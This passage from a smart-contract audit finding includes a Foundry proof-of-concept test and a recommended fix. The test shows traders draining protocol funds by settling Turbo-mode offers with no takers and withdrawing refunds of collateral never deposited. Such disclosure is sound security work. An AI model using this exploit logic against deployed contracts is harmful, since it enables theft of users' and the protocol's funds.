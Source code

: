 ```solidity
            0.01 * 1e18,
            block.timestamp - 1,
            3600
        );

        vm.startPrank(user2);
        // Given the unrealistic listing price, there were no takers and bob's points were not used. He will settle 0 points
        // and $200_000 will be available for withdraw
        deliveryPlace.settleAskMaker(bobOfferAddr, 0);

        uint balanceBeforeWithdrawing = mockUSDCToken.balanceOf(address(user2));
        tokenManager.withdraw(address(mockUSDCToken), TokenBalanceType.SalesRevenue);
        uint balanceAfterWithdrawing = mockUSDCToken.balanceOf(address(user2));

        // Bob got refunded with `200_000 USDC` that the protocol *thinks* he deposited
        assert(balanceAfterWithdrawing >= balanceBeforeWithdrawing + 200_000 ether);
    }
```
```bash
forge test --mt test_tradersCanStealFundsIfSubsequentListingsAreVirginInTurboMode

[PASS] test_tradersCanStealFundsIfSubsequentListingsAreVirginInTurboMode() (gas: 1286942)
```
## Impact
Malicious traders can exploit Turbo mode to drain the protocol's funds by listing offers with extremely high amounts and settling without any actual takers, leading to a significant loss of funds.
## Tools Used
Manual Review

## Recommendations
The current implementation incorrectly refunds the collateral in Turbo mode in which no collateral was deposited. 
Refunding collateral if there were no takers should be in either cases:
1. The original offer
2. Subsequent offer with `Protected` mode since they already deposited the collateral to be refunded.

Update the `settleAskmaker` function as follows
```diff
function settleAskMaker(address _offer, uint256 _settledPoints) external {
        // ...
     uint256 makerRefundAmount;
-    if (_settledPoints == offerInfo.usedPoints) {
+    if (_settledPoints == offerInfo.usedPoints && 
+    (makerInfo.offerType == OfferType.Protected || makerInfo.originOffer == _offer))
        if (offerInfo.offerStatus == OfferStatus.Virgin) { 
        // if there were no sub offers, refund the whole amount
            makerRefundAmount = OfferLibraries.getDepositAmount(
                offerInfo.offerType,
                offerInfo.collateralRate,
                offerInfo.amount,
                true,
                Math.Rounding.Floor
            );
        } else {//...}

        tokenManager.addTokenBalance(
            TokenBalanceType.SalesRevenue,
            _msgSender(),
            makerInfo.tokenAddress, 
```